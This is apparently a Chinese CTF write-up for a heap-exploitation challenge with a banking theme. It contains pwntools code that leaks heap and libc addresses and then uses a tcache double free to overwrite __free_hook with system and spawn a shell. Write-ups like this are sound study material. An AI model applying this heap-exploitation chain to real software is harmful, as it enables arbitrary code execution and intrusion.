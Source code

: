 首先不管先刷丶钱:yum:通过本地调试我们可以知道原本我们有`0x190`的`cash`	

```python
login('114514', '114514')

put(0x190)
cash = 0x190
while cash <= 1000000:
    deposit(cash)
    put(cash)
    cash += cash
```

可以通过`realloc`一个大一个小来凿一个`tcache`搞到`heap_addr`，但是注意的是我们要读地址就得给`admin`送钱，而`admin`至少要恰`0x1E`的钱，这也就意味之我们最少会读到`8 * 0x1E + g_malloc`这个地址。也就是至少要在`0xf0 + g_malloc`的位置凿一个`tcache`，而`realloc`又只能最大到`size = 0x100`，所以构造的时候还是得稍微思考一下

>  `g_malloc`实际上就是程序的第二个堆，也就是IDA里`0x203050`的那个变量。

![image-20220716115036753](https://cdn.novanoir.moe/img/image-20220716115036753.png)

![image-20220716115239582](https://cdn.novanoir.moe/img/image-20220716115239582.png)

浅浅计算一下就可以算出偏移，我们再减去`0x10`就是`heap_addr`了。

![image-20220716115416472](https://cdn.novanoir.moe/img/image-20220716115416472.png)

拿到`heap_addr`之后就相当于有了任意堆`free`的能力，此时我们可以构造一个伪造一个`large_bin`范围的`chunk`，这样`free`之后便会直接指向`main_arena`，从而获取`libc_base`接着拿到`free_hook`和`system`

```python
transfer('guest', 6, p64(0x431).rjust(0x10, b'\x00'), False)
for _ in range(40):
    transfer('guest', 6, b'1')
transfer('hacker', 51, heap_addr+0x3c0)
malloc_hook_addr = int(transfer('admin', 0x120 / 8), 16) - 96 - 0x10
libc_base = malloc_hook_addr - libc.sym['__malloc_hook']
free_hook_addr = libc_base + libc.sym['__free_hook']
system_addr = libc_base + libc.sym['system']
```

![image-20220716122243559](https://cdn.novanoir.moe/img/image-20220716122243559.png)

接下来就是常规的`Double Free`打`free_hook`了

```python
for i in range(7):
    transfer('hacker', 51, heap_addr+0x3f0+i*0x20)
transfer('hacker', 51, heap_addr+0x3f0+7*0x20)
transfer('hacker', 51, heap_addr+0x3f0+8*0x20)
transfer('hacker', 51, heap_addr+0x3f0+7*0x20)

for _ in range(7):
    transfer('guest', 6, b'/bin/sh\x00')
transfer('guest', 6, p64(free_hook_addr-0x8).ljust(0x10, b'\x00'), False)
transfer('guest', 6, b'')
transfer('guest', 6, b'')
transfer('guest', 6, p64(system_addr).rjust(0x10, b'\x00'), False)
transfer('hacker', 51, heap_addr+0x3f0)

sh.interactive()
```
